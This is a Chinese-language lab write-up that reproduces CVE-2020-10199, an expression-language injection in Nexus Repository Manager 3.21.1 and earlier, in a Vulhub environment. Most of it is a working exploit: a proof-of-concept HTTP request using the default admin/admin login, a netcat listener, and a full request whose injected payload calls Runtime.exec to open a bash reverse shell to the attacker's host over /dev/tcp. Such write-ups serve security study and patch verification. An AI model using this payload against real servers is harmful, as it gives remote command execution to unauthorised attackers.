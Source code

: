 # CVE-2020-10199

> **Created by：** A-little-dragon
> 
> **Team：** TracelessSec
> 
> **漏洞描述：** Nexus Repository Manager 3 任意EL表达式注入漏洞。



# 0x01 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

# 0x02 影响版本

`3.21.1及之前版本`

# 0x03 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```cpp
docker-compose up -d
```

成功启动后，访问http://your-ip:8081即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码admin/admin登录后台。

![Untitled](image/Untitled.png)

# 0x04 漏洞复现

## POC验证

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![Untitled](image/Untitled%201.png)

## 漏洞利用

**攻击机开启监听**

```
nc -lvvp {port}
```

**发送数据包**

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 192.168.100.141:8081
Pragma: no-cache
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.5406533101387068
Accept: */*
Referer: http://192.168.100.141:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.5406533101387068; _ga=GA1.1.1374831769.1719492805; NXSESSIONID=ec9ee768-c078-45e1-aa20-cfb2bf0b5264; _ga_K2SPJK2C73=GS1.1.1719492805.1.1.1719492854.11.0.0; _ga_T11SF3WXX2=GS1.1.1719492805.1.1.1719492854.11.0.0; _ga_0C4M1PWYZ7=GS1.1.1719492805.1.1.1719492904.0.0.0
Connection: close
Content-Type: application/json
Content-Length: 350

{
 
    "name": "internal",
    "online": true,
    "storage": {
        "blobStoreName": "default",
        "strictContentTypeValidation": true
    },
    "group": {
    "memberNames": ["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/{ip}/{port}<&1')}"]
}
}
```

![Untitled](image/Untitled%202.png)

**拿到shell**

![Untitled](image/Untitled%203.png)
